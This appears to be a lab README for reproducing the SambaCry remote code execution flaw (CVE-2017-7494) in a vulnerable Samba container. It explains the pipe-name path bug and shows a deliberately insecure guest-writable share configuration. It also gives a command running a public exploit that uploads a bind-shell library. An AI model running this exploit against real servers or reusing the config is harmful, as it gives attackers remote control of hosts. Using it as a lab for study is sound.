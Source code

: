 # Samba Authenticated Command Execution Vulnerability (CVE-2017-7494)

[中文版本(Chinese version)](README.zh-cn.md)

Samba is the standard Windows interoperability suite of programs for Linux and Unix, it provides secure, stable and fast file and print services for all clients using the SMB/CIFS protocol.

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4 that is vulnerable to a remote code execution vulnerability named SambaCry. CVE-2017–7494 allows remote authenticated users to upload a shared library to a writable shared folder, and perform code execution attacks to take control of servers that host vulnerable Samba services.

## Environment Setup

Execute following commands to start a Samba server 4.6.3:

```
docker-compose up -d
```

## Principle

Reference to [SambaCry RCE Exploit](https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c):

> Microsoft Remote Procedure Call (RPC) is a powerful technology for creating distributed client/server programs. RPC is an interprocess communication technique that allows client and server software to communicate.
> 
> MSRPC protocol allows to connect to a named pipe from remote destination. When trying to open a pipe using MSRPC on Samba, the server verifies the validity of the pipe name using the internal function `is_known_pipename()`.
> 
> An external RPC server can be set using the 'rpc_server' variable inside smb.conf and then it will handle the pipe request. 
> 
> The function `is_known_pipename()` doesn’t check that the pipe is valid, this allows to use '/' to insert a full path of an arbitrary library.

The exploitation requirements:

- An anonymous writeable server or an authenticated Samba account
- A known path of the writeable sharing directory

See also:

 - https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c
 - https://github.com/opsxcq/exploit-CVE-2017-7494
 - http://bobao.360.cn/learning/detail/3900.html

## Exploit

Samba config ( you can find [here](smb.conf) ) of our target server:

```
[global]
    map to guest = Bad User
    server string = Samba Server Version %v
    guest account = nobody

[myshare]
    path = /home/share
    read only = no
    guest ok = yes
    guest only = yes
```

Use `smbclient` to test connecting:

```
smbclient //your-ip/myshare -N
```

![](02.png)

If you got connection error, please check your network, especially port 445.

Using <https://github.com/opsxcq/exploit-CVE-2017-7494> to exploit the server:

```
./exploit.py -t your-ip -e libbindshell-samba.so -s myshare -r /home/share/libbindshell-samba.so -u guest -p guest -P 6699
```

Successful execute commands:

![](01.png)

Please note that, metasploit's `exploit/linux/samba/is_known_pipename` is tested failed since XX(I don't know) version, and I am really sure that it works on Jun 2017.